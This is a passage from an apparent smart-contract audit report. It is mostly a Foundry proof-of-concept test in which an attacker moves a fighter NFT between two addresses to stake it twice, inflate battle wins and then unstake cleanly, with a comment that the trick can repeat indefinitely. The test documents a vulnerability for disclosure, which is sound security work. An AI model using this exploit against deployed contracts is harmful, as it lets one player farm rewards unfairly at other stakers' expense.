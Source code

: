 ```javascript
        vm.prank(attacker);
        _fighterFarmContract.safeTransferFrom(attacker, attacker2, attackerTokenId, "hello");

        // Attacker transfers some NRN tokens to his second address so he can stake
        vm.prank(attacker);
        _neuronContract.transfer(attacker2, 2 * 10 ** 18);

        // Attacker uses his second address to stake the same NFT
        vm.prank(attacker2);
        _rankedBattleContract.stakeNRN(2 * 10 ** 18, attackerTokenId);
        assertEq(_rankedBattleContract.amountStaked(attackerTokenId), 4 * 10 ** 18);

        // Attacker plays 10 more games from his second address
        vm.startPrank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 0, 1500, true);
        vm.stopPrank();

        // We assume every game he has played is a win so we can easily count
        // How many games he has played from both addresses
        (wins ,,) = _rankedBattleContract.fighterBattleRecord(attackerTokenId);
        assertEq(wins, 20);

        // Attacker can repeat this infinitely

        // Here we show that attacker can also safely unstake after he is done with all his addresses
        // Without errors
        vm.prank(attacker2);
        _rankedBattleContract.unstakeNRN(2 * 10 ** 18, attackerTokenId);

        vm.prank(attacker2);
        _fighterFarmContract.safeTransferFrom(attacker2, attacker, attackerTokenId, "hello");

        vm.prank(attacker);
        _rankedBattleContract.unstakeNRN(2 * 10 ** 18, attackerTokenId);
    }
```

## Tools Used

Foundry, manual review
